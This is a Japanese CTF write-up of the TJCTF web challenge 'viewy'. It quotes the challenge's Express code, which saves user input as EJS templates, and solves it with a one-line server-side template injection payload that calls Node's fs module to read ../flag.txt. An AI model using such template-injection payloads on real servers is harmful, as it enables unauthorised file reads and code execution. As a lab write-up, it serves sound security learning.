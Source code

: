 # viewy:web:312pts
views  
[Instancer](https://instancer.tjctf.org/viewy)  

Downloads  
[server.zip](server.zip)  

# Solution
インスタンス生成URLとソースが配布される。  
生成すると謎のレンダリングサイトであった。  
viewy  
[site.png](site/site.png)  
ソースを見ると以下のようであった。  
```js
~~~
app.post('/', (req, res) => {
  const id = uuidv4();
  const { content } = req.body;
  const fileName = path.join(__dirname, 'views/uploads', `${id}.ejs`);
  fs.writeFileSync(fileName, content);
  return res.redirect('/views/' + id);
});

app.get('/views/:id', (req, res) => {
  if (
    fs.existsSync(path.join(__dirname, 'views/uploads', `${req.params.id}.ejs`))
  ) {
    res.render('view', { id: req.params.id });
  } else {
    res.status(404).send('Not found');
  }
});
~~~
```
コンテンツを投稿できるようで、ejsを自由に記述できる。  
明らかなSSTIであるので以下のペイロードを送信し、flag.txtを読み取る(flag.txtの場所はソースファイルより一階層上であるとわかる)。  
```ejs
<%- global.process.mainModule.require('fs').readFileSync('../flag.txt').toString() %>
```
flag  
[flag.png](site/flag.png)  
flagが読み取れた。  

## tjctf{4l1_th3_v1eW5_wh3333e333}